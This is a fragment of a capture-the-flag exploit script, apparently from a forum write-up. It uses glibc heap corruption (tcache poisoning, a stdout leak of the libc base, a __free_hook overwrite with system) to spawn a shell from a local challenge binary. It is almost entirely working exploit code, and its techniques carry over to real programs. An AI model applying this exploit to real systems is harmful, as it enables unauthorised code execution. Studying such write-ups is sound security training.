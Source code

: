 ```bash

    add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct

    payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin

    payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak

    leak_libc=l64()
    libc_base=leak_libc-0x1ec980
    li('libc_base = '+hex(libc_base))

    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']


    delete(12)

    delete(2)#second tcache poisoning

    payload=p64(0xdeadbeef)*12+p64(0x70)+p64(0x90)+p64(free_hook)
    add(0xb0,payload)#Cut a piece of memory from unsorted bin to control the fd pointer of tcache bin 


    add(0x80,'/bin/sh\x00')

    add(0x80,p64(sys_addr)) 

    delete(17)
    p.interactive()

while 1:
    try:
     p = process('./pwn') 
     libcso = './libc'
     libc = ELF(libcso)
     elf = ELF('./pwn')
     pwn()

    except:
     p.close()
```

[![](assets/1700186924-2c8af591f4eec66ab92164c1fa8cb5e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163102-79fa2baa-845a-1.png)
